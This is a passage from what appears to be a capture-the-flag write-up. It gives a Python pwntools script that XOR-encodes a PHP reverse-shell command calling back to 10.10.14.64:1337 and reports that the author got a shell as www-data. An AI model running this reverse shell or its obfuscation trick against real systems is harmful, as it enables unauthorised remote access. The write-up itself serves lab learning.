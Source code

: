 Wow nice!! so we can create this script to geting shell on www-data

```python
#!/usr/bin/env python3

from pwn import *
import os

l = listen(20053).wait_for_connection()
l.recvline()
l.sendline(b"id")
output = l.recvline()
key = output.decode().split("|")[1]

key = bytes.fromhex(key).decode('utf-8')

for decim in range(256):
    cmd =  ''.join([chr(ord(char) ^ decim) for char in key])
    if cmd == "cmd:":
    	xor = decim
    	break

def xorstr(data, xor):
	temp = []
	for i in data:
		fuck = ord(i) ^ xor
		temp.append(chr(fuck))
	return temp

temp = xorstr('php -r \'$sock=fsockopen("10.10.14.64",1337);exec("/bin/sh -i <&3 >&3 2>&3");\'  ', xor)
ex = ''.join(temp)[0:-1]
l.sendline(ex.encode())
output = l.recvline()
```
And we got the shell

![alt ffuf](/assets/img/toby/shell-www-data.png)
